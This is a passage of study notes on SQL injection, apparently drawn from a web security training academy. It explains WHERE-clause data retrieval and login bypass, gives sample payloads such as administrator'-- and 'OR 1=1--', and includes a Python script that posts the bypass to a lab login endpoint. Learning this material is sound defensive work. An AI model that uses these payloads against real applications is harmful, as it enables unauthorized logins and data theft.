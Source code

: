 `https://insecure-website.com/products?category=Gifts'+OR+1=1--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

The modified query returns all items where either the category is Gifts, or 1 is equal to 1. As 1=1 is always true, the query returns all items. 

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Subverting application logic

Imagine an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

This query returns the user whose username is administrator and successfully logs the attacker in as that user.

### Lab: SQL injection vulnerability allowing login bypass
    
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

```python
import requests

url = "https://0a690032048432f485acdaf600830022.web-security-academy.net/login"
data = {
    "csrf": "lvxXeM7JPU7vEh0WzyYlY7gPTVMdSxrj",
    "username": "administrator'--",
    "password": "a"
}
headers = {
    "Cookie": "session=Uc2SzcvGN9NclNLPSEL59ouaD7Mlog2r"
}
res = requests.post(url,headers=headers, data=data)
print(res.status_code)
print(res.text)
```

## SQL injection UNION attacks
